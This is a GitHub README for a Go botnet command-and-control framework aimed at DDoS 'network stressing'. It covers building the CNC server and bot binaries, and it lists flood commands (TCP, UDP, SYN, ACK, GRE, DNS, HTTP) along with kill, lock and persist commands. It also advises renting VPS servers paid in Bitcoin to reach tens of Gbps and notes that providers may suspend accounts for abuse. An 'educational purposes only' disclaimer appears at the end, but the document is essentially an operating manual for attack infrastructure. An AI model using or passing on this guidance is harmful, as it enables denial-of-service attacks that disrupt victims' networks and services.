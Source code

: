 # Golang Botnet focused on basic network stressing 

V5 ![Main](https://github.com/1Birdo/GoFlood), Now Release / in Last Development as we speak, This will combind both Gostress-V2 + BotnetGo as one big C2 Framework + REST API Web UI + Ternimal with Encryption and a Bi-directional Proxy.

>
> 2025-04-N/A
>
>https://github.com/1Birdo/GoStress

> 2024-09-20
>
> Last Botnet Source Release, trying to do more alternative and better projects.


## Overview
This project implements a simple Botnet Control and Command (CnC) server in Go, enabling users to manage connected bots and execute various network attack commands.

## Features
- **User Authentication**: Secure login and credential management.
- **Bot Management**: Connect and manage multiple bots.
- **Attack Execution**: Send commands to bots for executing different types of network attacks.
- **Logging**: Track bot connections and actions.

## Prerequisites
- Go 1.18 or higher
- Terminal/command line interface
- Basic understanding of Go and network programming

**![image1](https://github.com/user-attachments/assets/812f9717-c037-4399-ba57-e9bf4f610326)**


## Installation
1. **Clone the repository**:
   ```bash
   git clone https://github.com/Birdo1221/BotnetGo.git
   cd BotnetGo/cnc
   ```
2. **Install dependencies**:
   ```bash
   go mod init cnc
   go mod tidy
   ```
3. **Build the project**:
   ```bash
   go build -o cnc *.go
   ```
4. **Run the server**:
   If the any of the ports are defined below 1024,
   you will need to run with sudo privilages to bind to that port.
   I would also recommend running using ```screen``` to run with it so it
   doesnt get killed for idle memory usage or kill the process after you close the program
    ```bash
   ./cnc
    
   sudo apt install screen 
   screen ./cnc 
   ```
   
6. **Running the Device / Bot files**:
   You bascially want to enter into the ```bash Devices``` Directory
   and do the exact same you did in the CNC directory
   ```bash
   cd ../device
   ```
   Then to build just run the build.sh script to make all the different arch types,
   but if you just want to build it for standard x86 or just without defining anything just run

    ```bash
    sh build.sh
   ```
    For without defining
    ```bash
     go build -o Botfile bot.go
   ```

## Configuration
Edit the constants in `main.go` to configure:
- **User and Bot Server IPs**: Adjust `USER_SERVER_IP` and `BOT_SERVER_IP`.
- **Server Ports**: Modify `USER_SERVER_PORT` and `BOT_SERVER_PORT`.
- **Killer**: Modify `killerEnabled` to `true` if you want to run on runtime and not when commanded to.

**![image](https://github.com/user-attachments/assets/d5886f8c-1ac4-485d-b88c-b63a0acd51ff)**


## Usage
- Start the server and connect your bots.
- Use the CLI to log in and execute commands.
  ### e.g. Termum, Mobaxterm or Putty
- Attacks command to start an attack:
  ```bash
  !tcpflood <target_ip> <target_port> <duration>
  !udpflood <target_ip> <target_port> <duration>
  !udpsmart <target_ip> <target_port> <duration>
  !syn <target_ip> <target_port> <duration>
  !ack <target_ip> <target_port> <duration>
  !gre <target_ip> <duration> // you will need to send a port anyway
  !dns <target_ip> <target_port> <duration>
  !http <target_ip> <target_port> <duration> // still in the works
  ```
- Alternative command to send:
  ```bash
  !kill
  !lock
  !persist
  ```


  ## Logging in 
1. **How to Login**:
   On Line 290 there is a string that is prompted to be called for before being able to login to it
   e.g. loginforme


2. **Users **:

   After that, you will be prompted to enter a username and password.
   If you don't remember them, you can check the users.json file,
   which contains the login information and more.  

4.  **Future Development/ Power problem **:
 ```
   When searching for a reliable source, one of the most significant concerns is the power it can deliver.
   Many users face challenges when a single source does not meet their expectations,
   they often switch to a differnt source or just abandon their search altogether.

   This source is designed to provide the expected performance. To start fully utilizing this source you
   will need around 10 to 16 servers, each equipped with 1 core and 1 GB 
   of RAM, and an output capacity of 1 Gbps, you can achieve approximately 30 to 40 Gbps for UDP traffic.

   I'd recommend using rental hosts for this purpose, as it allows you to create multiple server instances without
   having to pay an entire upfront cost of buying several servers. On average, with a Command and Control (CNC) server
   to test this would cost around 20 GBP (British Pounds) in Bitcoin.

   You can obtain affordable servers by using a rental VPS service or a budget host.
   However, be aware that VPS providers like OVH, Vultr, or Linode may terminate or suspend
   your VPS due to bandwidth or flooding abuse.
  ```
Performance may vary based on several factors, including:
 ```bash
   *.Packet size
   *.Server output
   *.RTT based on geolocation
   ```
For TCP methods, similar performance can be expected for each methods, typically ranging from 20 to 28 Gbps, though this is also influenced by various conditions.
   
## Disclaimer

#  ```This project is for educational purposes only. Ensure you have permission before testing any network security tools on remote servers. I bear no responsibility or obligation to anyone using this for malicious purposes. ```

DDoS attacks are a serious crime that disrupt critical infrastructure, causing significant damage. Initiatives like Operation PowerOFF and Operation Endgame have highlighted the growing threat, targeting cybercriminals behind DDoS-for-hire services. These operations emphasize that DDoS is no longer just a nuisance but a severe offense with real-world consequences, and those involved face legal repercussions.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
